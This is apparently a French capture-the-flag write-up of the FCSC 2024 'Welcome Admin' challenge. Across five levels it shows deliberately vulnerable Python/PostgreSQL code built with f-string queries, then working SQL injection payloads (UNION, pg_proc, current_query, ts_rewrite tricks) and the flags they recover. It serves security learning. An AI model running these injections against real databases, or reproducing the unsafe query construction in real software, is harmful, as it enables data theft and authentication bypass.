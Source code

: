 # FCSC 2024
## Challenges :
Welcome Admin 1/2  
Welcome Admin 2/2

## Thème : Injection de SQL
## Welcome Admin 1/2  
Au cœur d'un réseau labyrinthique, là où la lumière des écrans peine à éclairer les recoins les plus sombres, une demande spéciale est lancée dans les abîmes, un appel discret, attendu seulement par ceux qui connaissent les profondeurs. Seul un véritable expert pourra répondre à l'appel, cryptiquement formulé : "Un expert en SQL est demandé à la caisse numéro 3."

## Welcome Admin 2/2
Au cœur d'un réseau labyrinthique, là où la lumière des écrans peine à éclairer les recoins les plus sombres, une demande spéciale est lancée dans les abîmes, un appel discret, attendu seulement par ceux qui connaissent les profondeurs. Seul un véritable expert pourra répondre à l'appel, cryptiquement formulé : "Un expert en SQL est demandé à la caisse numéro 3."

URL du serveur : https://welcome-admin.france-cybersecurity-challenge.fr/

![Login](login.png)

Lien du serveur de l’archive container : 
https://france-cybersecurity-challenge.fr/files/e8c67b40e1e1a23305e8592a647e5756/welcome-admin.tar.xz?token=eyJ1c2VyX2lkIjozNDEsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjE4OH0.Zhz9kg.gxNsCVdWeE4J0Wck30a0B0YfEbU

## Analyse des sources :
Serveur web écrit en Python avec une base Postgres
On peut le lancer en locale : 
docker-compose up --build
Le serveur est alors disponible en 127.0.0.1 :8000

Le code est assez simple , il y a 5 url qui correspondent aux 5 niveaux d’administration. 
Chaque niveau d’administration correspond à une injection SQL plus ou moins tordu	




## Level 1 :
Code python :
```python
cursor.execute(f"SELECT '{token}' = '{password}'")
```

Injection :
```
' OR '1' = '1
```

Flag : FCSC{94738150696e2903c924f0079bd95cd8256c648314654f32d6aaa090846a8af5}

## Level 2 :
Code python :
```python

  cursor.execute(
        f"""
            CREATE FUNCTION check_password(_password text) RETURNS text
            AS $$
                BEGIN
                    IF _password = '{token}' THEN
                        RETURN _password;
                    END IF;
                    RETURN 'nope';
                END;
            $$ 
            IMMUTABLE LANGUAGE plpgsql;
        """
    )
    cursor.execute(f"SELECT  check_password('{password}')")
```

La problématique est d’afficher le mot de passe aléatoire de la procédure. 
On utilise la table pg_proc & on fait un substring pour récupérer la valeur.

Injection :
```
t')  UNION (select SUBSTRING(pg_get_functiondef(oid) FROM 178 FOR 32) from pg_proc where proname = 'check_password') LIMIT ('2
```

## Level 3 :
Code python :
```python

cursor.execute(f"SELECT '{token}', '{password}';")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 2:
        return False
    return row[1] == token
```

La problématique est ici assez tordue. Il faut que la deuxième de la colonne du select soit égale au token.
En explorant les fonctions tordu de la doc de postgres, je suis tombé sur current_query() qui permet de récupérer cette requête.
Injection :
```
' || SUBSTRING(current_query() FROM 9 FOR 32) --
```

## Level 4 :
Code python :
```python

cursor.execute(f"""SELECT md5(random()::text), '{password}';""")
```

Il est probablement impossible de deviner le md5(random() ::text)
Le plus simple est donc de faire qu’on injecte une nouvelle ligne de données et on ignore la première avec le UNION SELECT … OFFSET

Injection :
```
' UNION SELECT 'toto', 'toto' OFFSET 1 –
```


## Level 5 :
Code python :
```python

@app.route("/turbo-admin", methods=["GET", "POST"])
@login_for(Rank.TURBO_ADMIN, Rank.FLAG, "/flag")
def level5(cursor: cursor, password: str):
    table_name = "table_" + os.urandom(16).hex()
    col_name = "col_" + os.urandom(16).hex()
    token = os.urandom(16).hex()

    cursor.execute(
        f"""
        CREATE TABLE "{table_name}" (
          id serial PRIMARY KEY,
          "{col_name}" text
        );

        INSERT INTO "{table_name}"("{col_name}") VALUES ('{token}');
        """
    )
    cursor.execute(f"SELECT '{password}';")
    row = cursor.fetchone()
    print(row)
    if not row:
        return False
    if len(row) != 1:
        return False
    return row[0] == token
```


Le token, le plus tordu à récupérer.  Il est stocké dans une table avec un nom aléatoire et un nom de colonne aléatoire avec un contenu aléatoire.
Difficulté il me fallait donc une sorte de fonction eval qui consomme un string pouvant contenir une requête.
Je suis tombé sur les ts_rewrite & to_tsquery dans la doc. 
Recherche rapide sur google pour trouver exemple d’utilisation sous forme d’exploit. Je tombe sur :
https://www.synacktiv.com/publications/dont-fear-the-bark-tsrewrite-to-dodge-the-mark

Le job est presque fait :
Injection :
```
' UNION SELECT SUBSTRING(CAST(ts_rewrite('lock', 'SELECT to_tsquery(''lock''), to_tsquery(' || (SELECT column_name || ') FROM ' || table_name FROM information_schema.columns WHERE column_name like 'col\_%' and table_name like 'table\_%' LIMIT 1)) AS TEXT)||'', 2, 32) OFFSET 1  --
```

Enfin, le flag :
```
FCSC{a380e590ae8ffe8da9bb86f27d05203b7f9d32dd37c833c2764097840848b3a2}
```
